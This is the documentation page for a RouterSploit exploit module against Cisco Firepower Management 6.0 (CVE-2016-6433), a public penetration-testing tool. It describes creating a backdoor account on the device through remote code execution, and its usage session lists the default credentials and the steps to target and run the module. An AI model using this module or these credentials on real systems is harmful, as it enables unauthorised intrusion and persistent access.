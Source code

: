 # Cisco Firepower Management 6.0 RCE

## Description
Module exploits Cisco Firepower Management 6.0 Remote Code Execution vulnerability.If the target is vulnerable, it is create backdoor account and authenticate through SSH service.

## Authors
* Matt # vulnerability discovery
* sinn3r # metasploit module
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6433](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6433)
* [https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking](https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking)

## Vulnerable devices
* Cisco Firepower Management Console 6.0

## Usage
```
rsf > use exploits/cisco/firepower_management60_rce
rsf (Cisco Firepower Management 6.0 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address
   port       443                  Target Port


Module options:

   Name            Current settings     Description
   ----            ----------------     -----------
   username        admin                Default username to log in
   newpassword                          New backdoor password (Default: Random)
   password        Admin123             Default password to log in
   newusername                          New backdoor username (Default: Random)


rsf (Cisco Firepower Management 6.0 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Cisco Firepower Management 6.0 RCE) > run
[*] Running module...
```
